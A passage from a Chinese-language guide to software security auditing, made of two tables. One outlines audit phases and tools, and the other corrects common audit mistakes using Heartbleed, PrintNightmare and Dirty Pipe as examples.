| 攻击面识别 | 梳理所有外部接口：网络端口、RPC、文件格式、IPC | 端口扫描、API枚举、代码走读 |
| 威胁建模 | 评估每个攻击面的风险等级和潜在影响 | STRIDE模型、攻击树 |
| 自动化扫描 | 用SAST/DAST工具快速筛选可疑代码 | CodeQL、Semgrep、AFL、Valgrind |
| 人工审计 | 对自动化工具标记的高风险区域深入分析 | 代码审查、协议分析、内存调试 |
| PoC验证 | 编写概念验证代码确认漏洞可利用 | 自定义exploit、Metasploit模块 |
| 修复验证 | 确认补丁有效且不引入新漏洞 | 回归测试、模糊测试、红队验证 |

#### 常见审计误区与纠正

| 误区 | 正确做法 |
|------|---------|
| 只关注缓冲区溢出，忽视逻辑漏洞 | Heartbleed是越界读取而非溢出，PrintNightmare是权限逻辑错误——两者都不涉及传统缓冲区溢出 |
| 认为静态分析工具能发现所有问题 | CodeQL/Semgrep能发现模式化的缺陷，但语义级漏洞（如Dirty Pipe的状态残留）需要人工理解代码意图 |
| 忽视默认配置的安全影响 | Print Spooler默认启用是攻击能成功的关键前提，审计必须覆盖默认配置 |
| 修复只处理直接原因 | Heartbleed需要同时修复长度验证和响应大小限制；Dirty Pipe需要同时清除flags和增加权限检查 |
| 仅测试正常输入 | 模糊测试是发现内存安全漏洞的最有效手段，应覆盖所有协议解析路径 |
| 忽视跨版本代码差异 | Dirty Pipe仅在Linux 5.8引入的优化后出现，审计时需精确理解版本间的代码变更 |
